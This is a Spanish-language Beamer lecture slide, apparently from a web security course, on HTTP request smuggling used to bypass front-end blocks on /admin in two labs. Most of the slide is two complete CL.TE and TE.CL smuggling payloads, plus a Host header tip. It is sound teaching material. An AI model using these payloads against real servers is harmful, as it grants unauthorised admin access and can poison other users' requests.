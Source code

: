 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{Bypass de Controles del Front-end (Labs 123-124)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item El escenario
  \item El front-end bloquea /admin para usuarios sin privilegios.
  \item El back-end confía en que el front-end ya validó $\rightarrow$ no aplica los mismos controles.
  \item Con smuggling inyectamos GET /admin en la conexión del back-end sin pasar por el filtro.
  \item CL.TE bypass (Lab 123)
  \item \cmd{POST / HTTP/1.1}
  \item \cmd{Content-Length: 37}
  \item \cmd{Transfer-Encoding: chunked}
  \item \cmd{0}
  \item \cmd{GET /admin HTTP/1.1}
  \item \cmd{X-Ignore: x}
  \item $\rightarrow$ El back-end prepende GET /admin a la siguiente petición $\rightarrow$ acceso al panel.
  \item TE.CL bypass (Lab 124)
  \item \cmd{POST / HTTP/1.1}
  \item \cmd{Content-Length: 3}
  \item \cmd{Transfer-Encoding: chunked}
  \item \cmd{50}
  \item \cmd{GET /admin HTTP/1.1}
  \item \cmd{Content-Type: application/x-www-form-urlencoded}
  \item \cmd{Content-Length: 15}
  \item \cmd{x=1}
  \item \cmd{0}
  \item $\rightarrow$ El payload está en el chunk; CL=3 hace que el back-end deje el resto en buffer.
  \item Cabecera Host en el bloque smuggleado
  \item Si /admin requiere Host: localhost $\rightarrow$ añadirlo en el bloque smuggleado.
  \item Cada petición fallida puede contaminar la cola de otros usuarios --- usar en labs.
  \end{itemize}
\end{frame}
\end{document}
